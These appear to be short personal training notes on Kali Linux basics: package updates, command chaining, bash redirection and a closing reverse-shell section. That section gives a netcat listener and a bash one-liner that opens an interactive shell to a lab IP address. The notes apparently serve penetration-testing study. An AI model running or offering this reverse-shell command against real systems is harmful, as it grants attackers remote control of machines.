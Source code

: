 # Notes for 2019-10-10

## Github
git clone https://github.com/gregdykes/purple
Note: you can also pull the zip file from the website.

## Updating Kali Linux (as root)
To install a single package...
apt install <PACKAGE-NAME>

Updating Kali...
apt update
apt list --upgradable
apt upgrade
apt dist-upgrade <-- For installing all kept packages
apt autoremove

## Chaining Commands
By using a ; after a command you can string them along like so...

ping -c 3 127.0.0.1; ifconfig; uname -a

This will execute each command one after...

## Bash io redirection
https://www.tldp.org/LDP/abs/html/io-redirection.html
>
>>
<
|
0 = stdin
1 = stdout
2 = stderr


## Reverse shells
Start a listener using netcat:
nc -nlvp 4444

bash -i >& /dev/tcp/192.168.56.101/4444 0>&1



